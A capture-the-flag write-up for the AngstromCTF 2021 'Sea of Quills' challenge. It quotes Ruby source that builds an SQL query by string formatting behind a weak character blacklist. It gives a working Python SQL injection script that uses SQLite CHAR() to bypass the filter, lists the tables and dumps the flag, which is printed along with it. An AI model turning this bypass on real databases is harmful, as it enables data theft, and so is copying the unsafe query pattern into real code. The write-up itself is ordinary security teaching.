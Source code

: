 # AngstromCTF2021 Sea of Quills
Lokking at the sourcecode we notice the lines:
```
blacklist = ["-", "/", ";", "'", "\""]

blacklist.each { |word|
  if cols.include? word
    return "beep boop sqli detected!"
  end
}


if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
  return "bad, no quills for you!"
end

@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

We immediately see that the parameter `cols` is injectable. We do however need to take care that our query dosen't use any of the blacklisted characters. Fortunatly the SQLite dbms has a function called `CHAR` that takes integers as arguments and convert them to their ascii representation.

We can now code up our payload:
```
import requests

url = "https://seaofquills.2021.chall.actf.co/quills"

# Find table names
# We can use the CHAR method to insert strings and circumvent the filter
# CHAR(0x74,0x61,0x62,0x6c,0x65) outputs 'table'
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"name,name,name FROM sqlite_master WHERE type=CHAR(0x74,0x61,0x62,0x6c,0x65) UNION select desc,url,name"
    }

r = requests.post(url,params=payload)
print(r.text)
# This returns the tablename `flagtable`

# Use tablename to extract flag
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"* FROM flagtable UNION select desc"
}

r = requests.post(url,params=payload)
print(r.text)
```
Running the solytion we find the flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`
